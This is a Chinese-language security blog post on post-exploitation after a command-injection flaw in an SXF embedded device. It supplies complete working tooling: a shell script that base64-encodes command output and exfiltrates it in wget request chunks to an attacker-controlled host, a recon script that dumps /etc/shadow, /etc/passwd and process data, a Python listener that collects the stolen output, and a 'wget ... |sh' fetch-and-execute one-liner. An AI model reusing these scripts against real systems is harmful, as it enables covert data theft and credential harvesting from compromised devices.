 ```yaml
---
layout: post
comments: true
title: 命令注入后渗透利用之wget信息收集
category: 网络安全
keywords: RCE,cmdi,2021
---
```


## 背景
前段时间挖掘到一个SXF产品的命令注入漏洞，发现设备支持wget，但是通过各种方法都无法把设备信息外传。很可能是因为嵌入式设备因flash空间有限，对很多程序进行裁剪，很多参数都不支持了。

基于这个背景，我尝试编写一个通过wget泄露信息的脚本。

## 设计思路
总体思路分成三个脚本实现目标功能，shell脚本W和O，python脚本wget_leck_ser.py。

### shell脚本W
+ 步骤1 通过参数传入要执行的命令，把命令执行结果重定向到/tmp目录下的一个临时文件
+ 步骤2 读取临时文件并进行base64编码
+ 步骤3 通过awk把base64编码后的字符串进行分割
+ 步骤4 通过wget把分割后的字符串依次放在URI中外传

### shell脚本O
+ 步骤1 给脚本W增加执行权限
+ 步骤2 执行一系列预置的命令，把命令传给脚本W执行

### python脚本wget_leck_ser.py
+ 步骤1 启动web服务
+ 步骤2 把接受到的请求的URI拼接起来，直至收到FINISH信息
+ 步骤3 接收到FINISH后，把拼接在一起的URI通过base64解码，并打印出来。

发现命令注入点后，首先通过wget命令，把W.sh上传到目标设备的/tmp目录下。
```
wget ip:port/W -O /tmp/W
```

接着在测试机启动wget_leck_ser.py监听信息。
```
python wget_leck_ser.py
```

最后通过wget不落地执行脚本O，获取目标信息。
```
wget -O - ip:port/O|sh
```

## 实现
下面是三个脚本的实现（拷贝到Windows系统，记得要dos2unix, 否则脚本无法正常执行）

### shell脚本W
```
#!/bin/sh

REMOTE="192.168.1.2:6789"

OUTPUT_stdout="/tmp/U.stdout.output"
OUTPUT_stderr="/tmp/U.stderr.output"
WGETLEAK="wget "$REMOTE"/c="

if [ $# -eq 0 ]; then
    exit
fi

wget_send() {
    cmd=$WGETLEAK$1
    eval $cmd
}

# CMD
wget_send `echo "#"$* | base64`
wget_send "FINISH"

# BODY
# CMD=$*"|base64|sed ':a;N;$!ba;s/\n//g'"
eval $* > $OUTPUT_stdout 2> $OUTPUT_stderr
cat $OUTPUT_stderr >> $OUTPUT_stdout

strarr=`cat $OUTPUT_stdout | base64 | awk -F "" '{
    k=128
    for (i=1;i<=NF;i=i+k) {
        tmp="";
        for (j=0;j<k&&i+j<=NF;j++)
            tmp=(tmp""$(i+j));
        print tmp;
    }
}'`

for str in $strarr
do
    wget_send $str
done

wget_send "FINISH"

rm -rf $OUTPUT_stdout $OUTPUT_stderr
```

### shell脚本O
```
#!/bin/sh

chmod 777 /tmp/W
chmod +x  /tmp/W

/tmp/W whoami
/tmp/W id
/tmp/W pwd
/tmp/W ls -al /

/tmp/W echo $PATH
/tmp/W ls -al /bin/
/tmp/W ls -al /sbin
/tmp/W ls -al /usr/bin/
/tmp/W ls -al /usr/sbin

/tmp/W mount
/tmp/W ps aux
/tmp/W ps -ef
/tmp/W netstat -tulnp
/tmp/W ifconfig
/tmp/W fdisk -l

/tmp/W busybox
/tmp/W file /bin/busybox


/tmp/W cat /proc/cmdline
/tmp/W cat /proc/cpuinfo
/tmp/W cat /proc/meminfo
/tmp/W cat /proc/modules
/tmp/W cat /proc/uptime
/tmp/W cat /proc/zoneinfo


/tmp/W iptables -L
/tmp/W cat /etc/passwd
/tmp/W cat /etc/shadow
/tmp/W cat /etc/fstab
/tmp/W cat /etc/rc.local

for dir in `ls /`
do
    if [ "$dir" == "proc" ];then
        echo ""
    elif [ "$dir" == "sys" ];then
        echo ""
    else
        /tmp/W ls -Ra "/"$dir
    fi
done

echo "### Start ###" > /tmp/procinfo.tmp
for dir in `ls /proc`
do
	echo "" >> /tmp/procinfo.tmp
	echo "++++++ check /proc/"$dir >> /tmp/procinfo.tmp
	ls -al "/proc/"$dir"/exe" >> /tmp/procinfo.tmp
	cat "/proc/"$dir"/cmdline" >> /tmp/procinfo.tmp
done
/tmp/W cat /tmp/procinfo.tmp
rm /tmp/procinfo.tmp
```

### python脚本wget_leck_ser.py
```
from http.server import BaseHTTPRequestHandler,HTTPServer
import base64
import os

glo_content = ''
glo_filename = ''

class handler(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(404)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def log_message(self, argv1, argv2, argv3, argv4):
        pass

    def do_GET(self):
        global glo_content
        global glo_filename
        self._set_headers()
        recv = self.path.split('c=')[1]
        if recv == 'FINISH':
            try:
                content = base64.b64decode(glo_content).decode(errors='ignore')
                if content[0] == '#':
                    content = '\n' + content

                print(content)
                with open(glo_filename, 'a+') as fp:
                    fp.write(content)
            except Exception as exp:
                print(exp)
                print("[ERROR] Base64 decode error.")
            glo_content=''
        else:
            glo_content += recv
        self.wfile.write("".encode())

def run(server_class=HTTPServer, handler_class=handler, port=6789):
    global glo_filename
    filecnt = 1
    while True:
        glo_filename = "targetInfo_" + str(filecnt).zfill(3) + '.txt'
        if os.path.exists(glo_filename) is True:
            filecnt += 1
        else:
            break

    httpd = server_class(('0.0.0.0', port), handler_class)
    print('Server running at 0.0.0.0:%d...' % port)
    httpd.serve_forever()

run()
```
